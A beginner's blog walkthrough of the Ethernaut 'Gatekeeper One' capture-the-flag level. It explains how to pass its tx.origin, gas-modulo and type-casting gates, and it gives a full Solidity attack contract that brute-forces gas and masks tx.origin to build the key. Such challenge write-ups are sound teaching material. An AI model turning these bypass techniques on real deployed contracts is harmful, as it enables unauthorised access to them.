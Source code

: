 ```yaml
---
title: "Ethernaut - Walkthrough for Noobs - 12 - Gatekeeper One"
datePublished: Tue Mar 28 2023 22:34:00 GMT+0000 (Coordinated Universal Time)
cuid: clfsu4nwr000e09mg5k3ofps9
slug: ethernaut-walkthrough-for-noobs-12-gatekeeper-one
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1680028896426/73e97479-5e8c-4887-8f5f-25f58c186b05.jpeg
tags: ethereum, web3, smart-contracts, 2articles1week, ethernaut

---
```


I will explain the challenge in a slightly different way this time, usually, we start with some background information, look at the code, and then write a solution.

This challenge is different as there are three mini-challenges mixed in, so we will have to tackle them one by one.

> There are three gates, and we have to pass the gates to clear the level.
> 
> Objective: Make it past the gatekeeper and register as an entrant to pass this level.

### Gate 1

```solidity
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }
```

We have looked at the concept of `tx.origin` in a previous challenge [Telephone](https://adityabajaj.hashnode.dev/ethernaut-walkthrough-for-noobs-4-telephone). Refer to that challenge to understand the concept behind `tx.origin`.

Basically, to pass this modifier, we must create an intermediary contract and that contract should interact with the GatekeeperOne contract.

Hence, The intermediary contract == `msg.sender` and our address == `tx.origin`. Thus, passing the condition.

### Gate 2

```solidity
  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }
```

`gasleft()` is an in-built function and as its name suggests, tells us the remaining gas left after the contract call.

The modifier here means that the gas left should yield a remainder 0 when divided by 8191, that is the gas left should be a multiple of 8191. To solve this we must send the exact amount of gas "required to execute all the contract code + enough that it's divisible by 8191"

There are two ways to solve the issue, the barbarian way would be to translate all the solidity code in EVM opcodes, and calculate the gas which further depends on the compiler version you are using, etc. It's safe to say that we are not using this method.

The second, more smarter way would be to brute-force the function, incrementing gas using a loop until we hit the sweet spot.

### Gate 3

```solidity
modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }
```

To pass this gate, we need to understand type conversions, downcasting, upcasting, and bitmasking.

1. Upcasting: When we convert a smaller data type into a larger data type. There is no data loss and the extra space is padded with 0s. Integers are padded on the left whereas fixed-size byte types are padded on right. [Refer this](https://docs.soliditylang.org/en/latest/types.html#conversions-between-elementary-types)
    
    ```solidity
    uint16 a = 0x1234;
    uint32 b = uint32(a); // b will be 0x00001234 now
    ```
    
    ```solidity
    bytes2 a = 0x1234;
    bytes4 b = bytes4(a); // b will be 0x12340000
    ```
    
2. Downcasting: When we convert a bigger datatype into a smaller datatype. This is problematic since we will have data loss. In integers, higher-order bits will get cut and in fixed-sized bytes types lower order will get cut.
    
    ```solidity
    uint32 a = 0x12345678;
    uint16 b = uint16(a); // b will be 0x5678 now
    ```
    
    ```solidity
    bytes2 a = 0x1234;
    bytes1 b = bytes1(a); // b will be 0x12
    ```
    
3. Bitmasking: This is the act of applying a "mask" to a value. Basically using some bitwise operators like `AND` `OR` or `XOR` to mask or choose which subset you would want and which you want to clear.
    
    We will be using the `AND` operator in this challenge. [Read more](https://www.geeksforgeeks.org/bitwise-operators-in-c-cpp/)
    
    *Note: Bitwise Operators should not be confused with Logical Operators.*
    

Since we got the background down, let's look at Gate 3, and see how we can pass that. The `gateThree` modifier takes an 8-byte input. Let's assume that to be `0x A1 A2 A3 A4 A5 A6 A7 A8`

*Note:* `uintX` *or the number after* `uint` *i.e. X is in bits and not bytes, so divide that by 8 for understanding.*

1. ```solidity
    require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))
    //this condition states that 
    //0x A5 A6 A7 A8 == 0x 00 00 A7 A8 
    
    //which basically means that A5 A6 must be zeroes. 
    ```
    
2. ```solidity
    require(uint32(uint64(_gateKey)) != uint64(_gateKey)) 
    //this condition states that 
    
    //0x 00 00 00 00 A5 A6 A7 A8 != 0x A1 A2 A3 A4 A5 A6 A7 A8
    
    //which basically means that, A1 A2 A3 A4 cannot be zeroes. 
    ```
    
3. ```solidity
    require(uint32(uint64(_gateKey)) == uint16(tx.origin))
    //this condition states that 
    
    //0x A5 A6 A7 A8 == 0x 00 00 (bytes from tx.origin)
    
    //which basically means that A7 and A8 must be the last two bytes of tx.origin.
    ```
    

All of this summarized means this: `0x NZ NZ NZ NZ 00 00 TX TX`, where

1. `NZ == any non-zero data`
    
2. `TX = tx.origin data`
    

since we only need to make sure that A5 and A6 are zeroes, we can add an `AND` bitwise operator on `tx.origin` to generate the required key.

```solidity
bytes8(uint64(tx.origin) & 0xFFFFFFFF0000FFFF

//adding bytes8 to convert it to required format. 
//using the & bitwise operator as a mask, A5 and A6 in tx.origin will turn to zero and rest everything else will remain the same. 
```

We are pretty much done with the explanation, let's check the solution.

### Solution

```solidity
//SPDX-License-Identifier: MIT
pragma solidity 0.8.18; 

contract TheMasterKey{
//gate 1 is automatically passed, since we are using another contract to interact with Gatekeeper One. 
    function attack(address _GateKeeper) external { //function that takes the Gatekeeper Contract Address
        bytes8 gatekey = bytes8(uint64(uint160(tx.origin)) & 0xFFFFFFFF0000FFFF); //to bypass gate3. 

        for(uint256 i=0; i<300; i++) { //creates a for loop
            uint256 totalGas = i + (8191 * 4); //total gas == gas spent + gas required for gate 2. 
            (bool result, ) = _GateKeeper.call{gas: totalGas}(abi.encodeWithSignature("enter(bytes8)", gatekey)); //low level call, using .enter will cause it to revert. 
            
            if (result) { //stops the loop when we succeed. 
                break;
            }
        }
    }
}
```

1. Open up your Remix IDE and Compile and Deploy this.
    
2. Add your level instance as `_Gatekeeper`
    
3. Check if the `entrant` is you
    

Submit Instance⛩️